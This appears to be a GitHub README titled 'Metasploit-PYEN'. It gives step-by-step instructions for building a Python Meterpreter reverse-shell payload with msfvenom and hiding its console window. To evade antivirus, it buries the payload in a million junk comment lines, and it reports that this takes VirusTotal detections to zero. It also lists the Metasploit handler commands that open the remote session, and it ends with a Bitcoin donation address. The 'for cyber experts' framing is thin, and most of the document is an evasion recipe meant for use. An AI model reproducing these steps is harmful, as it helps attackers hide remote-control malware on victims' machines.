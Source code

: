 # Metasploit-PYEN
<strong><i>A new method of testing the metasploit payload cryptography and its use for cyber experts.</i></strong>
__________________________________________________________________________________________
## [+] Encryption test result :
### [>] From :
![Pic-1](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-1.png)
- Hash : ```0c0ba1c307f2fc0d8de806d406e0dba6d1ee47b9391ad282c4a651a120e3f918```
- -------------------------------------------------------------------------------------
### [>] To :
![Pic-2](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-2.png)
- Hash : ```f5698ec0516a03e9254d802b4ec232bc88ac0381965e64d2037fe1991db5aad3```
- -------------------------------------------------------------------------------------
## The changes :
- It was previously discovered that it contained JavaScript code, and now it has been changed to a text file.
- In VirusTotal statistics, the payload file got (7/60) and after coding, he obtained (0/59).
- The change is to add a million lines of text from this and in the middle of these lines the Python code for the metasploit connection information.
- The Text : ``` #;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]] ```
- like this picture :

![Pic-3](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-3.png)
- -------------------------------------------------------------------------------------
## [+] How to create and connect to the payload :
- Use <strong><i>Msfvenom</strong></i> to create a Python payload.
- In <strong><i>root</strong></i> user write this code : ```msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -o > Payload.py```.
- Change Output file from ```Payload.py``` to ```Payload.pyw``` --> To Hide the console.
- Add a million lines in the file from this code ```#;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]]``` Then put the python payload code in the middle of the million lines in the payload.
- Save the file, now test it in VirusTotal and test it on your device to verify the file.
### [+] Connection test :
- Run <strong><i>Msfconsole</strong></i> tool.
- Put these commands in the terminal of the metsploit tool, and as you know, it will receive your IP address and port.
- Commands :
```
use exploit/multi/handler

set payload python/meterpreter/reverse_tcp

set LHOST <Your IP address>

set LPORT <Your Port>
```
### To start Exploit type :

```exploit```

- Then the connection session opens without problems.

# [+] Supported ME :

BTC : ```bc1qt5wkdh4w6xustsnfaanll4f464t75vncml29cx```












